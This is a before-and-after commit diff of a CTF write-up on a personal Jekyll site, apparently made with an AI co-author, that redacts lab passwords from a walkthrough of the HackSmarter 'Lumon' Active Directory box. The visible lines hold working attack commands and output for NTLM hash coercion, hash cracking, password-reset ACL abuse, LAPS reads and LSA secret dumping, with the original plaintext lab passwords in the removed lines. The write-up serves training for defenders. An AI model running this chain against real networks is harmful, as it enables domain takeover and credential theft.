

Before and after one commit to p3ta00/p3ta00.github.io, a Jekyll site: the page built from _ctf/hacksmarter-lumon.md, in a window 1280 px wide and 1400 px high, scrolled down 24998 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Redact all passwords except Password123
Co-Authored-By: Claude Opus 4.5 <noreply@anthropic.com>

````diff
--- a/_ctf/hacksmarter-lumon.md
+++ b/_ctf/hacksmarter-lumon.md
@@ -24,7 +24,7 @@ For the purposes of this evaluation, you will be provided the assigned credentia
 
 | Username | Password |
 |----------|----------|
-| hellyr | H3lenaR!2025 |
+| hellyr | [REDACTED] |
 
 **Platform:** HackSmarter
 **Difficulty:** Medium
@@ -45,7 +45,7 @@ UwU Toolkit netexec > set RHOSTS 10.1.188.43
 RHOSTS => 10.1.188.43
 UwU Toolkit netexec > creds use 1
 [*] USER => hellyr
-[*] PASS => H3lenaR!2025
+[*] PASS => [REDACTED]
 [+] Loaded credential: 1
 UwU Toolkit netexec > set GENERATE_HOSTS yes
 GENERATE_HOSTS => yes
@@ -55,10 +55,10 @@ UwU Toolkit netexec > run
 [*] User: hellyr
 [*] Protocol: SMB
 [*] Action: check
-[*] Executing: NetExec smb 10.1.188.43 -u hellyr -p 'H3lenaR!2025'
+[*] Executing: NetExec smb 10.1.188.43 -u hellyr -p '[REDACTED]'
 [*] SMB 10.1.188.43 445 INTRANET Windows 11 / Server 2025 Build 26100 x64 (name:INTRANET)
 (domain:lumons.hacksmarter) (signing:False) (SMBv1:None)
-[+] SMB 10.1.188.43 445 INTRANET [+] lumons.hacksmarter\hellyr:H3lenaR!2025
+[+] SMB 10.1.188.43 445 INTRANET [+] lumons.hacksmarter\hellyr:[REDACTED]
 [+] Generated /etc/hosts entries:
 10.1.188.43 INTRANET INTRANET.lumons.hacksmarter lumons.hacksmarter
 [?] Append to /etc/hosts? [Y/n]: y
@@ -91,10 +91,10 @@ UwU Toolkit netexec > run
 [*] User: hellyr
 [*] Protocol: SMB
 [*] Action: shares
-[*] Executing: NetExec smb 10.1.188.43 -u hellyr -p 'H3lenaR!2025' --shares
+[*] Executing: NetExec smb 10.1.188.43 -u hellyr -p '[REDACTED]' --shares
 [*] SMB 10.1.188.43 445 INTRANET Windows 11 / Server 2025 Build 26100 x64 (name:INTRANET)
 (domain:lumons.hacksmarter) (signing:False) (SMBv1:None)
-[+] SMB 10.1.188.43 445 INTRANET [+] lumons.hacksmarter\hellyr:H3lenaR!2025
+[+] SMB 10.1.188.43 445 INTRANET [+] lumons.hacksmarter\hellyr:[REDACTED]
 [*] SMB 10.1.188.43 445 INTRANET Enumerated shares
 SMB 10.1.188.43 445 INTRANET Share Permissions Remark
 SMB 10.1.188.43 445 INTRANET ----- ----------- ------
@@ -107,7 +107,7 @@ SMB 10.1.188.43 445 INTRANET MDRepo READ,WRITE
 Enumerating the shares we see two files. Let's pull these and see if we can identify anything interesting:
 
 ```
-Exegol > smbclient.py 'hellyr':'H3lenaR!2025'@10.1.188.43
+Exegol > smbclient.py 'hellyr':'[REDACTED]'@10.1.188.43
 Impacket (Exegol fork) v0.13.0.dev0+20250723.125503.b5db2dd7 - Copyright Fortra, LLC and its affiliated companies
 
 Type help for list of commands
@@ -315,7 +315,7 @@ FILE_TYPE        all                                no         File types to gen
 INTERFACE        tun0                               no         Network interface for Responder
 LHOST            10.200.31.187                      yes        Listener IP (your Responder IP)
 OUTPUT_DIR       ntlm_theft_output                  no         Output directory for files
-PASS             H3lenaR!2025                       no         Password for SMB auth
+PASS             [REDACTED]                       no         Password for SMB auth
 REMOTE_PATH                                         no         Remote path within share (optional)
 RHOSTS           10.1.188.43                        no         Target host for upload
 SHARE            MDRepo                             no         Share name for upload
@@ -409,28 +409,28 @@ desktop.ini
 [*] Attempting to crack captured hashes...
 [*] Running hashcat (NTLMv2 mode 5600)...
 [+] Cracked passwords:
-HARMONYC::LUMONS:[HASH REDACTED]:h@rmony08
+HARMONYC::LUMONS:[HASH REDACTED]:[REDACTED]
 [*] Responder stopped
 ```
 
-We identify **h@rmony08** for HARMONYC.
+We identify **[REDACTED]** for HARMONYC.
 
 ### Validating New Credentials
 
 Let's add and verify the new creds:
 
 ```
-UwU Toolkit ntlm_coerce > creds set HARMONYC h@rmony08
+UwU Toolkit ntlm_coerce > creds set HARMONYC [REDACTED]
 UwU Toolkit netexec > run
 [*] Running netexec...
 [*] Target: 10.1.188.43
 [*] User: HARMONYC
 [*] Protocol: SMB
 [*] Action: check
-[*] Executing: NetExec smb 10.1.188.43 -u HARMONYC -p 'h@rmony08'
+[*] Executing: NetExec smb 10.1.188.43 -u HARMONYC -p '[REDACTED]'
 [*] SMB 10.1.188.43 445 INTRANET Windows 11 / Server 2025 Build 26100 x64 (name:INTRANET)
 (domain:lumons.hacksmarter) (signing:False) (SMBv1:None)
-[+] SMB 10.1.188.43 445 INTRANET [+] lumons.hacksmarter\HARMONYC:h@rmony08
+[+] SMB 10.1.188.43 445 INTRANET [+] lumons.hacksmarter\HARMONYC:[REDACTED]
 [+] Module completed successfully
 ```
 
@@ -452,10 +452,10 @@ UwU Toolkit netexec > run
 [*] User: hellyr
 [*] Protocol: SMB
 [*] Action: check
-[*] Executing: NetExec smb 10.1.250.54 -u hellyr -p 'H3lenaR!2025' -d dc01.lumons.hacksmarter
+[*] Executing: NetExec smb 10.1.250.54 -u hellyr -p '[REDACTED]' -d dc01.lumons.hacksmarter
 [*] SMB 10.1.250.54 445 DC01 Windows 11 / Server 2025 Build 26100 x64 (name:DC01)
 (domain:lumons.hacksmarter) (signing:True) (SMBv1:None) (Null Auth:True)
-[+] SMB 10.1.250.54 445 DC01 [+] dc01.lumons.hacksmarter\hellyr:H3lenaR!2025
+[+] SMB 10.1.250.54 445 DC01 [+] dc01.lumons.hacksmarter\hellyr:[REDACTED]
 [+] Generated /etc/hosts entries:
 10.1.250.54 DC01 DC01.lumons.hacksmarter lumons.hacksmarter
 [?] Append to /etc/hosts? [Y/n]: y
@@ -552,7 +552,7 @@ IntranetSvc::LUMONS:[HASH REDACTED]
 Using UwU hashcrack we can crack the hash instantly:
 
 ```
-INTRANETSVC::LUMONS:[HASH REDACTED]:Servicesince1979
+INTRANETSVC::LUMONS:[HASH REDACTED]:[REDACTED]
 ```
 
 ---
@@ -583,7 +583,7 @@ Name               Current               Required   Description
 ------------- -------------------- ---------- ---------------------------------------------
 DOMAIN        lumons.hacksmarter   yes        Domain name
 NEW_PASS                           yes        New password for target
-PASS          Servicesince1979     yes        Password for USER
+PASS          [REDACTED]     yes        Password for USER
 RHOSTS        10.1.250.54          yes        Domain Controller IP
 TARGET_USER                        yes        Target user to reset password
 USER          INTRANETSVC          yes        Username with ACL permissions
@@ -660,7 +660,7 @@ Impacket (Exegol fork) v0.13.0.dev0+20250723.125503.b5db2dd7 - Copyright Fortra,
 
 Host       LAPS Username  LAPS Password              LAPS Password Expiration  LAPSv2
 ---------  ------------- -------------------------- ------------------------  ------
-INTRANET$  localadmin    DoseAxisWickTastyGlassHelp 2026-02-22 10:23:15       True
+INTRANET$  localadmin    [REDACTED] 2026-02-22 10:23:15       True
 ```
 
 ### Local Administrator Access
@@ -711,7 +711,7 @@ SMB 10.1.188.43 445 INTRANET LUMONS.HACKSMARTER/harmonyc:[DCC2 HASH REDACTED]: (
 SMB 10.1.188.43 445 INTRANET LUMONS.HACKSMARTER/MarkS:[DCC2 HASH REDACTED]: (2025-10-10 00:54:05)
 SMB 10.1.188.43 445 INTRANET LUMONS\INTRANET$:[MACHINE KEYS REDACTED]
 SMB 10.1.188.43 445 INTRANET dpapi_machinekey:[DPAPI KEYS REDACTED]
-SMB 10.1.188.43 445 INTRANET LUMONS\harmonyc:h@rmony08
+SMB 10.1.188.43 445 INTRANET LUMONS\harmonyc:[REDACTED]
 SMB 10.1.188.43 445 INTRANET [+] Dumped 12 LSA secrets to /root/.nxc/logs/lsa/INTRANET_10.1.188.43_2026-01-23_142210.secrets and /root/.nxc/logs/lsa/INTRANET_10.1.188.43_2026-01-23_142210.cached
 Exegol >
 ```
@@ -731,7 +731,7 @@ Then use hashcrack in UwU or hashcat 2100:
 
 ```
 === CRACKED ===
-$DCC2$10240#hellye#[HASH REDACTED]:Security&system
+$DCC2$10240#hellye#[HASH REDACTED]:[REDACTED]
 Connection to 172.17.0.1 closed.
 ```
 
@@ -748,15 +748,15 @@ Now we can RDP as hellye and own the domain:
 ```
 Phase 1 - Initial Access
 ─────────────────────────────────────
-hellyr       : H3lenaR!2025         → Starting credentials
+hellyr       : [REDACTED]         → Starting credentials
 
 Phase 2 - NTLM Coercion (MDRepo Share)
 ─────────────────────────────────────
-harmonyc     : h@rmony08            → Hash captured via ntlm_theft in MDRepo
+harmonyc     : [REDACTED]            → Hash captured via ntlm_theft in MDRepo
 
 Phase 3 - Web Application Exploitation
 ─────────────────────────────────────
-intranetsvc  : Servicesince1979     → Hash captured via command injection coercion
+intranetsvc  : [REDACTED]     → Hash captured via command injection coercion
 
 Phase 4 - ACL Abuse (ForceChangePassword)
 ─────────────────────────────────────
@@ -765,15 +765,15 @@ peterk       : Password123          → Password reset via intranetsvc
 
 Phase 5 - LAPS Exploitation
 ─────────────────────────────────────
-localadmin   : DoseAxisWickTastyGlassHelp → LAPS password via marks (LAPSADMINS)
+localadmin   : [REDACTED] → LAPS password via marks (LAPSADMINS)
 
 Phase 6 - Credential Dumping
 ─────────────────────────────────────
-hellye (DCC2): Security&system      → Cached credentials from LSA dump
+hellye (DCC2): [REDACTED]      → Cached credentials from LSA dump
 
 Phase 7 - Domain Compromise
 ─────────────────────────────────────
-hellye       : Security&system      → Domain Admin - DOMAIN OWNED
+hellye       : [REDACTED]      → Domain Admin - DOMAIN OWNED
 ```
 
 ---
````
